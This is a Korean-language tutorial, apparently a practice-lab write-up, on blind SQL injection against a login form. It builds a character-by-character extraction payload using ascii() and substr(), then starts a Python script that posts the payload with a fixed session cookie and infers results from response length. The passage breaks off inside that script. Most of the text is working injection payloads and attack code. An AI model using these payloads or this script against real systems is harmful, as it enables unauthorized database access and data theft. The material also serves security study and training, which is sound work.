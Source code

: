 - 로그인 성공. select 문을 사용할 수 있다.

## 공격 포맷 만들기.
- Blind SQL Injection 은 한 문자씩 확인하는 공격이다.
- ascii 와 substr 함수를 이용할 것 이다.

```sql
입력 = ' user2' and (('t')='t') and '1'='1 '
성공

ascii 함수를 문자를 이용하여 아스키코드로 변환한다.
ascii('t')
입력 = ' user2' and ((ascii('t'))>0) and '1'='1 '
성공

't' 한 문자 추출하기.
substr('test',1,1)
입력 = ' user2' and ((ascii(substr('test',1,1)))>0) and '1'='1 '
성공

공격문 = ' user2' and ((ascii(substr((SQL),1,1)))>0) and '1'='1 '

'test' 출력하기.
select 'test' from dual;
공격문 = ' user2' and ((ascii(substr((select 'test' from dual),1,1)))>0) and '1'='1 '
성공
```

- 완성된 공격 포맷

```sql
공격 포맷 = ' user2' and ((ascii(substr((SQL),1,1)))>0) and '1'='1 '
```



## Base가 되는 파이썬 코드
- 인자로 쿼리문을 삽입해 주면 된다.

```python
FAIL_LEN = 1482;
URL = "http://221.27.0.6/main_page/sql_injection_prob/login_methods/division_blind_sql_injection/authentication"
COOKIES = {'JSESSIONID':'E092AC001C0A642C200BD6902B7EF6A5'}
DATA={'user_name':'user2', 'user_password':'2222'}

def is_success()->bool:
    response = requests.post(url = URL, cookies= COOKIES,data= DATA)
    return len(response.text) != FAIL_LEN;
  
def find_data(query):
    row = 0
    while True:
        #
        DATA['user_name'] = attack_query(query,row,1,0)
        if not is_success() :
            break;
  
        point = 1
        while True:
            #
            DATA['user_name'] = attack_query(query,row,point,0)
            if not is_success():
                break;
            # 이분 탐색
            s = 32
```